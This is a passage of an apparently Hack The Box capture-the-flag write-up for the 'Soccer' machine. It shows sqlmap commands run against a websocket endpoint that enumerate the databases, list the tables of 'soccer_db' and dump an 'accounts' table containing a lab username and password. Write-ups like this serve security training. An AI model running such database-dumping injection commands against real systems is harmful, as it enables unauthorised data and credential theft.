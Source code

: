 ```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"59637"}' --dbms=mysql --risk=3 --level=5 --batch --threads 10 --dbs

       __H__                                                               
 ___ ___[']_____ ___ ___  {1.8.7#stable}                                   
|_ -| . [,]     | .'| . |                                                  
|___|_  [.]_|_|_|__,|  _|                                                  
      |_|V...       |_|   https://sqlmap.org    
      
<SNIP>
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

`soccer_db` might need more investigation.
Let's look up tables of `soccer_db`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"59637"}' --dbms=mysql --risk=3 --level=5 --batch --threads 10 -D soccer_db --tables
        ___
       __H__                                                               
 ___ ___[']_____ ___ ___  {1.8.7#stable}                                   
|_ -| . [,]     | .'| . |                                                  
|___|_  [.]_|_|_|__,|  _|                                                  
      |_|V...       |_|   https://sqlmap.org                               

<SNIP>
[1 table]
+----------+
| accounts |
+----------+
<SNIP>
```

Extracted table name is `accounts`.
Now let's dump the table.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"59637"}' --dbms=mysql --risk=3 --level=5 --batch --threads 10 -D soccer_db -T accounts --dump

       __H__                                                               
 ___ ___[']_____ ___ ___  {1.8.7#stable}                                   
|_ -| . [,]     | .'| . |                                                  
|___|_  [.]_|_|_|__,|  _|                                                  
      |_|V...       |_|   https://sqlmap.org    

<SNIP>
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
<SNIP>
```
